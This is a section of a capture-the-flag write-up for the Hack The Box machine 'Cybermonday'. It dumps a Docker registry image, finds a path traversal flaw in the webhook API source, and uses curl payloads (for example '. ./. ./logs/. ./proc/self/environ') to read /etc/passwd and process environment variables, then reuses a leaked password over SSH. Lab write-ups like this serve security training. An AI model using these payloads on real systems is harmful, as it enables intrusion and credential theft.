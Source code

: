 # HTB Cybermonday - Reading the Source

[Initial Enumeration](1-initial-enumeration)
[Webhook API Admin Access](2-webhook-api-admin)
[Obtaining More Info](3-obtaining-more-info)
[Gaining a Foothold](4-gaining-a-foothold)
[Where to Now?](5-where-to-now)
[**Reading the Source**](6-reading-the-source)
[Composing Root Access](7-composing-root-access)

Now that we have access to an internal Docker registry, let's use `curl` to see if we can get a list of images the registry contains.
```shell
$ curl http://<registry ip>:5000/v2/_catalog

{"repositories":["cybermonday_api"]}
```

It looks like this registry holds the image for the webhook API. We can download this image to look through the source and see if we can spot any vulnerabilities to exploit. While we could configure our local Docker version to use the `SOCKS` proxy and download the image that way, since we're not looking to actually run the container it's probably easier to download [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber) and get the image that way.
```shell
$ proxychains python3 DockerGraber.py http://<registry ip> --dump cybermonday_api

[+] BlobSum found 27
[+] Dumping cybermonday_api
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d6...
```

Once we have all the blobs we can extract them all with:
```shell
$ for f in *.tar.gz; do tar xf "$f"; done
```

And now we have the filesystem for the `cybermonday_api` container. The source for the webhook API can be found in `/var/www/html`. Looking through this source code, we see there's an undocumented endpoint for `createLogFile` type webhooks that lets us list and read the logs that are created. It also requires a different type of authentication to the token we've been using. Let's run the `list` action on the original webhook we found in the changelog.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "list"}'

{"status":"success","message":[...]}
```

If you made any requests to create a log earlier, you'll see them listed here. Next we want to test the read function.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": "test-<timestamp>.log"}'

{"status":"success","message":"test"}
```

Okay so we get the basic idea, you create logs with the webhook then read them here. The read log function checks for path traversal with a `regex` pattern and makes sure the file has `log` in the name. But if you look closer you might spot a problem. Theres a string substitution made _after_ the `regex` check.
```php
preg_match("/\.\.\//", $logName)
str_replace(' ', '', $logName)
```

Which means we can still abuse this endpoint for path traversal. We need to also be sure to include `log` in the name, but for that we can just re-enter the `/logs` directory and back out again. So a request to fetch `/etc/passwd` would look like this:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./etc/passwd"}'

{"status":"success","message":"root:x:0:0:root:\/root:\/bi..."}
```

Now we have path traversal, but what can we do with it? The code uses `file_get_contents` rather than `include` so we can't inject any code. We could try and see if another `.env` file exists.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./var/www/html/.env"}'

{"status":"error","message":"This log does not exist"}
```

No luck. But there is one file we can request the might be useful. Linux has a number of virtual directories in `/proc` that let you get the state of different processes. For the PHP server itself we can use `/proc/self`, and in particular `/proc/self/environ`.
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs \
-H "x-api-key: <api key>" \
-H "Content-Type: application/json" \
-d '{"action": "read", "log_name": ". ./. ./logs/. ./proc/self/environ"}'

{"status":"success","message":"HOSTNAME=e1862f4e1242\u0000PHP..."}
```

This gives us the environment variables set for the PHP server process. If we look carefully, we see one variable that might be of use.
```
DBPASS=<password>
```

It's pretty buried in there and can be easy to miss with the JSON formatting, but we can see a password in the environment that might just be what we're looking for. If we try to `ssh` to the host using the username we found earlier and this password:
```shell
$ ssh john@<host ip>
john@<host ip>'s password:

john@cybermonday:~$ 
```

Success. Grab the flag in `user.txt` and then let's continue on to root.

Next: [Composing Root Access](7-composing-root-access)